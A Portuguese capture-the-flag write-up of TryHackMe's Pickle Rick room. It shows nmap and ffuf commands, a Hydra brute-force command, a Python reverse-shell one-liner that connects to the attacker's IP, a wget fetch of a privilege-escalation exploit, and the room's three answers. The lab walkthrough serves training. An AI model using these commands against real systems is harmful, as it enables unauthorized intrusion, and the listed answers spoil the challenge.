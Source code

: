 # Sala picklerick do TryHackMe

Essa sala Pickle Rick do TryHackMe tem como objetivo fazer com que o pentester pense fora da caixa e que consiga bypassar algumas situações 


# Description

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: MACHINE_IP

You can also access the web app using the following link: https://LAB_WEB_URL.p.thmlabs.com (this will update when the machine has fully started)

# Requisitos para invasão
- [x] BurpSuite



# Tela inicial do Lab

Aqui encontramos o problema, que o rick perdeu sua senha. Então provavelmente teremos que acessar uma tela de login.
![vuln2.jpg](img/telainicial.jpeg)

Vamos observar o código fonte da página 

#### HTML code
```html

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>

```

Análisando o códifo fonte, encontramos o usuário do Rick que é o R1ckRul3s

```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```



Nesse periodo em paralelo, realizei um scan para buscar por novas informações do alvo

```
nmap 10.10.195.34
```

![vuln2.jpg](img/scan.jpeg)

E também tentei me conectar via SSH
```
ssh -v R1ckRul3s@10.10.195.34
```


![vuln2.jpg](img/ssh_falha.jpeg)


E uma enumeração de diretorios através do ffuf


```

ffuf -c -w /usr/share/dirb/wordlists/common.txt -u http://10.10.195.34/FUZZ -e '.php','.html','.csv','.xls','.xlsx'

```
Encontramos uma página chamada login.php e um robots.txt
![vuln2.jpg](img/ffuf.png)


Entrando aqui na tela de login, deixei um bruteforce rodando  em paraleo

## Tela de login
![vuln2.jpg](img/login.png)


## Hydra
![vuln2.jpg](img/hydra.jpeg)
```
hydra -l R1ckRul3s -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt   10.10.195.34 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password."
```


## Depois de esperar um bom tempo de bruteforce, decidir entrar no robots.txt e esse conteúdo do robots.txt era  meio estranho

```
Wubbalubbadubdub
```

## Tentando logar com o usuário
R1ckRul3s e senha Wubbalubbadubdub. Consigo logar no sistema.
![vuln2.jpg](img/logado.png)

## Tentando um ls -la no command panel achamos o primeiro ingrediente

![vuln2.jpg](img/primeiro_ingrediente.png)

## Resposta aqui 
![vuln2.jpg](img/resposta.png)

```
mr. meeseek hair
```

## Precisamos pegar uma shell melhorada para avançar para os próximos ingredientes, então executei o comando


![vuln2.jpg](img/pegar_shell.png)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.28",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Shell

![vuln2.jpg](img/shell.png)




## Trocando de diretorios encontramos o segundo ingrediente

![vuln2.jpg](img/segundo_ingrediente.png)
```
1 jerry tear
```

## Subindo shell para escalar privilegio

![vuln2.jpg](img/subindo_exploit_privilege_escalation.png)

## Computador do atacante
```
python -m http.server
```

## Computador do alvo
```
wget http://10.9.0.28:8000/CVE-202104034.PY
```

## E agora, só rodar o exploit e escalar privilegio


![vuln2.jpg](img/root.png)

## Com acesso root e procurando o terceiro ingrediente achamos na pasta do root

![vuln2.jpg](img/terceiro.png)

```
fleeb juice
```

Máquina completa :D
